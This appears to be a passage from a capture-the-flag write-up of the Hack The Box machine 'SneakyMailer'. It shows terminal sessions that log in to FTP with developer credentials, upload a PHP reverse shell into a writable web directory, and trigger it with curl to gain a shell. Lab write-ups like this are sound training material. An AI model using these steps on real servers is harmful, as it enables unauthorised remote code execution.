 # 15 - FTP

# Login successful 
```bash
┌─[user@parrot]─[10.10.14.9]─[~/htb/sneakymailer]
└──╼ $ ftp 10.10.10.197
Connected to 10.10.10.197.
220 (vsFTPd 3.0.3)
Name (10.10.10.197:user): developer                       
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxr-x    8 0        1001         4096 Sep 06 12:25 dev
226 Directory send OK.

```
Developer has read/write access to dev.
# Files
```bash
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 May 26  2020 css
drwxr-xr-x    2 0        0            4096 May 26  2020 img
-rwxr-xr-x    1 0        0           13742 Jun 23  2020 index.php
drwxr-xr-x    3 0        0            4096 May 26  2020 js
drwxr-xr-x    2 0        0            4096 May 26  2020 pypi
drwxr-xr-x    4 0        0            4096 May 26  2020 scss
-rwxr-xr-x    1 0        0           26523 May 26  2020 team.php
drwxr-xr-x    8 0        0            4096 May 26  2020 vendor
226 Directory send OK.
```

Unfortunately there is no sensitive information stored here but the structure and files look familiar. Those are the files from the http server but it may be a dev branch because the parent directory is named "dev"




# Reverse Shell upload
```bash
ftp> put php-reverse-shell.php
local: php-reverse-shell.php remote: php-reverse-shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5492 bytes sent in 0.00 secs (106.8894 MB/s)
```

Our reverse shell payload is uploaded. Possible locations with the name "dev" could be one the following:

* dev.sneakycorp.htb/php-reverse-shell.php
* sneakycorp.htb/dev/php-reverse-shell.php
* sneakycorp.htb:8080/dev/php-reverse-shell.php
* dev.sneakycorp.htb:8080/php-reverse-shell.php

```bash
┌─[user@parrot]─[10.10.14.9]─[~/htb/sneakymailer]
└──╼ $ curl http://dev.sneakycorp.htb/php-reverse-shell.php
```

As it turns out the correct location is http://dev.sneakycorp.htb/php-reverse-shell.php .

# Shell
![](vx_images/3776007747875.png)